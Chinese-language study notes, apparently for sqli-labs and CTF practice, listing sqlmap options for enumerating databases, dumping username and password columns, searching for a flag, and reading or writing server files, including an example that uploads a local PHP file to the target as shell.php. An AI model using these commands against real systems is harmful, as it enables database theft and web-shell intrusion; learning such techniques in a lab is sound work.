 # 基本语法：

```javascript
--dbs      #数据库
--tables -D"tets"  #显示test数据库中的表
--column -T"table_name" -D"database_name" #显示表结构
--dump -C"column_name" -T"table_name" -D"database_naem" #显示指定字段里的内容
--dump -T"table_name" -D"database_name" #显示表的所有内容
```



列如：

```javascript
sqlmap -u"http://192.168.100.176/vuln/sqli-labs/Less-1/?id=1"
 --dump -C"password,username" -T"users" -D"security"
```



![](images/4BFF136AB7DB496981B0425376F03845clipboard.png)



# 从数据库搜索指定字段

--search:搜索指定字段（在ctf中很有用，直接搜索flag)

```javascript
sqlmap -u"http://127.0.0.1?id=1" -D"securty" --search -C"flag""
```



# 文件读写：

--file-read=RFILE  从后端的数据库管理系统文件系统读取文件（物理路径）

--file-write=WFILE 编辑后端的数据库管理系统上的本地文件

--file-dest=DFILE  后端的数据库管理系统写入文件的绝对路径



示例：

```javascript
sqlmap -r"bp.txt" -p"uname" --file-write='/root/桌面/CTF/1.php' 
--file-dest="H:\WWW\vuln\sqli-labs\Less-11\shell.php"
```

将本地的1.php文件写入到服务器的shell.php文件内。































